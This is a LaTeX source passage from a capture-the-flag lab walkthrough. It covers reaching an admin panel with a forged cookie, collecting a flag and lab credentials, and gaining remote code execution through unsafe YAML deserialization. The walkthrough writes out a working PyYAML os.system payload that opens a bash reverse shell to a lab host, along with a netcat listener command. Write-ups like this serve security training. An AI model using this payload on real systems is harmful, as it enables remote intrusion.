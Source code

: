 \documentclass[a4paper, 12pt]{article}
\begin{document}
\section{Phase 4 --- Admin Panel (FLAG \#2)}

With the forged admin cookie, navigate to \texttt{http://192.168.30.10/admin}.

The \texttt{classified\_intel} table entry contains:

\begin{lstlisting}
FLAG{synapse_admin_classified_accessed}
operator / D4t4V4ult#2024  [DataVault at 192.168.30.20]
\end{lstlisting}

\begin{mdframed}[backgroundcolor=labgray, linecolor=flagcolor, linewidth=1pt]
\textbf{\color{flagcolor}FLAG \#2:} \texttt{FLAG\{synapse\_admin\_classified\_accessed\}}\\
\textbf{Server-B creds:} \texttt{operator / D4t4V4ult\#2024}
\end{mdframed}

\section{Phase 5 --- YAML Deserialization \texorpdfstring{$\rightarrow$}{->} RCE (FLAG \#3)}

Server-B DataVault uses \texttt{yaml.UnsafeLoader} in \texttt{/preview/<filename>}.

\subsection*{Step 1 --- Start listener on Parrot}
\begin{lstlisting}[language=bash]
nc -lvnp 4444
\end{lstlisting}

\subsection*{Step 2 --- Create YAML payload}
\begin{lstlisting}[language=bash]
cat > exploit.yml << 'EOF'
!!python/object/apply:os.system
- "bash -c 'bash -i >& /dev/tcp/10.0.40.5/4444 0>&1'"
EOF
\end{lstlisting}

\subsection*{Step 3 --- Upload and trigger}
\begin{enumerate}[leftmargin=2em]
  \item Login at \texttt{http://192.168.30.20} as \texttt{operator / D4t4V4ult\#2024}
  \item Upload \texttt{exploit.yml}
  \item Click \textbf{Preview} --- reverse shell connects to Parrot
\end{enumerate}
\end{document}
